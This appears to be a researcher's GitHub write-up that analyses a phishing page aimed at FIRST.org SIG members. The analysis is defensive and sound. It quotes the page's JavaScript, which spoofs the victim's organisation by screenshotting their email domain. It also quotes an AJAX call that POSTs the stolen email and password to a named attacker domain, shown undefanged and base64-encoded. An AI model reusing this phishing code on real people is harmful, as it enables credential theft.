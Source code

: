 # FIRST.org - A Phishing Attempt

Later this year members of EPSS SIG - FIRST.org were targeted with a phishing email. Being a member of the SIG community i quickly started analyzing the reported email and provided the details to the team to fix the issue. 

The phishing email included a link to a phishing website. Which looked like FIRST.org but with a login page. 

The technique to create the phishing page was unique to what i have seen in the past. So, in this repo I will cover the details. 

> The actual phishing page is provided in this repository for your learnings. 

## Analysis

On clicking the link in the phishing email, the users were redirected to the following domain. 

> https[:]//thescientistt[.]com 

An Indian organization which organizes conference focusing on research in different fields of science and technology etc. 

The domain, was compromised by the threat actors to host the phishing page. `We are not going into how it was compromised as it is out of scope`.

![](https://github.com/deFr0ggy/deFr0ggy.github.io/blob/master/assets/epss1.png?raw=true)

Below code snippet provides us with the details on how the phishing page was being generated. 

```
var ind=my_email.indexOf("@");
var my_slice=my_email.substr((ind+1));
var mainPage = 'https://'+my_slice; 
var c= my_slice.substr(0, my_slice.indexOf('.'));
var final= c.toLowerCase();
var finalu= c.toUpperCase();
	
var sv = my_slice;
		
var image = "url('https://image.thum.io/get/width/1200/https://"+sv;"')"
```

Where `sv` is the value taken from fragment of the URL i.e. the postfix to `@` which is the domain name. 

The domain name is then added to the following URL which is a website to take a screenshot of the full page. 

```
var image = "url('https://image.thum.io/get/width/1200/https://"+sv;"')"
```

Finally, this image is set as the background of the phishing page. 

```
document.body.style.backgroundImage = image;
```

While, this was just to host the Phishing, the actual credentials of the users phished were forwarded to the below domain via a POST request.

> https[:]//ontravelviagens[.]com/

The following is the code where the email and the password are read and are sent to another malicious domain. 

```
	var d=atob('aHR0cHM6Ly9vbnRyYXZlbHZpYWdlbnMuY29tL3dwLWluY2x1ZGVzLy4uLi9qc3MucGhw');
	   $.ajax({
        dataType: 'JSON',
		url: 'https://ontravelviagens.com/wp-includes/jss.php',
        type: 'POST',
        data:{
          email:email,
          password:password
        },
```

> Chaning the email in the URL will actually change the page background to that domain provided in the email address if the domain exists. Thus, the adversary can use the same phishing page for multiple campaigns. 

----

Thanks for reading.
